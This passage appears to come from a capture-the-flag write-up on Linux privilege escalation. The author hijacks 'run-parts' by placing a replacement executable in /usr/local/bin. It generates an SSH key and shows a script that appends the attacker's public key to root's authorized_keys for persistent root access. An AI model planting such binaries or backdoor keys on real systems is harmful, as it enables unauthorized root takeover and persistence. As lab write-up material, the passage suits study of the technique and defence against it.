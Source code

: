 <figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

```bash
# check the full path 
which run-parts

> /bin/run-parts
```

Now that we know exactly path, we can create a new executle to "ovverite" the original.

### Percistance with SSH root connection

Go to _/usr/local/bin_ folder and lets create a executable with same name.

```bash
cd /usr/local/bin
vi run-parts
```

Now I want to try to create a executable that creates an SSH connection as root and gives me a persistance on the target machine.

First, generate a **ssh-key** on kali machine (you must be root user to gen correct keys).

```bash
# generate ssh key
sudo su
ssh-keygen -f writeup 
# -f: print in output files
```

This command generate the private key file ('writeup') and public key file (writeup.pub).\
Copy the public key and paste it on the executable.

> For more details on the technique to set up reverse ssh as root on the target machine, see this guide:\
> [https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server#copying-your-public-key-manually](https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server#copying-your-public-key-manually)&#x20;



{% code title="run-parts" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

touch letzgoski.miao # check if the script run 

mkdir ~/.ssh # create ssh folder as root user
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEaFzsDWFZo76CM2/5+ZkWuJqrWCPbN8wlQfx3rUKpu/ root@kali' >> ~/.ssh/authorized_keys # paste the pub key into authorized_keys file
chmod 600 ~/.ssh/authorized_keys # gives file permissions  
```
{% endcode %}
